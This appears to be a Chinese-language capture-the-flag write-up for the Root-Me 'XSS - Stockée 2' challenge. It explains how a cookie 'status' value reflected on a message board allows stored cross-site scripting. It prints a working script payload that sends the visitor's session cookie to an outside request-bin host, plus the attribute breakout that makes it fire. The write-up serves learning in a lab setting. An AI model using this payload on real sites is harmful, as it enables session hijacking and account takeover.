





Root-Me [XSS - Stockée 2](https://www.root-me.org/fr/Challenges/Web-Client/XSS-Stockee-2)
===

該題提供一個留言板的功能，就如標題所提及的，儲存型 XSS。

## 提示訊息
```
Volez le cookie de session de l’administrateur et rendez-vous dans la section d’administration.
```

## 解題關鍵
1. 檢視原始碼
2. Cookie

## 解題方法
首先嘗試注入一些慣用的攻擊語句，並沒有發揮任何效用，使用者輸入的部分，皆完整的轉換玩 String 型態，所以不論是 Title、Content，幾乎都不是注入點。  

不過該題的留言都會加上 `(status : invite)`，與留言時呈現的相同，如下。  



隨後在 Cookie 的部分發現，有個 ststus 的參數值為 invite。



依照上述的發現，就可以嘗試是否達成 XSS，首先構造 Payload 如下。

```
<script>document.location="http://requestbin.fullcontact.com/11x6c731?cookie=".concat(document.cookie)</script>
```

但並沒有觸發，透過開發者工具發現問題，由於沒有將 `class` 閉合的關係，所以在 Payload 前方加上 `">` 即可。  

  

隨後到 `Requesbin` 上取得 cookie，如下。

  

嘗試提交，發現是錯誤的，仔細看了一下提示訊息，由於是法文，還是交由 Google 翻譯，簡單的意思是說，要使用 `administrator` 的 Cookie 到達管理頁面，所以還需要編輯一下 cookie，重新整理後隨即出現 Flag。  

  


## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)